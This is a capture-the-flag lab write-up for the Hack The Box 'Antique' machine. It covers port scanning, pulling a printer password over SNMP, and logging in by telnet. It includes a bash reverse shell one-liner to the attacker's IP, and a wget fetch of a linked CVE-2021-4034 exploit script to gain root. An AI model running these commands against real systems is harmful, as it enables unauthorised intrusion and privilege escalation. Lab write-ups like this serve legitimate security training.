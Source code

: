 # [Antique](https://app.hackthebox.com/machines/Antique)

```bash
nmap -p- --min-rate 5000 10.10.11.107 -Pn
```

![Alt text](img/image.png)


We know that just telnet port is open, let's do greater scan for this port.

```bash
nmap -A -sC -sV -p23 10.10.11.107
```

![Alt text](img/image-5.png)

I cannot find anything interesting, let's scan UDP ports.

```bash
nmap -p- -sU --min-rate 5000 10.10.11.107 -Pn
```

![Alt text](img/image-4.png)

I see that `SNMP` port is open, let's use `snmpwalk` command to find interesting stuff here.

I read this [article](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

```bash
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![Alt text](img/image-1.png)


There's a lot of numbers which shows obfuscated data, to get real data , I will use `Python`.

![Alt text](img/image-2.png)


I get password 'P@ssw0rd@123!!123' from this field, I connect into `telnet` via this credentials.

![Alt text](img/image-3.png)

I can execute commands from here, as you see, let's add reverse shell payload here.

```bash
exec bash -c 'bash -i >& /dev/tcp/10.10.16.7/1337 0>&1'
```

![Alt text](img/image-6.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-7.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-8.png)


user.txt

![Alt text](img/image-12.png)

I just look `policykit` via below command.

```bash
dpkg -s policykit-1
```

![Alt text](img/image-9.png)


I got version from here , that's **"Version: 0.105-26ubuntu1.1"**.That's [CVE-2021-4034](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)


I just open http server on my machine.

```bash
python3 -m http.server --bind 10.10.16.7 8080
```


I got this file via `wget` command as below.
```bash
wget http://10.10.16.7:8080/script.py
```

![Alt text](img/image-10.png)


Let's just execute this script to get root shell.


root.txt

![Alt text](img/image-11.png)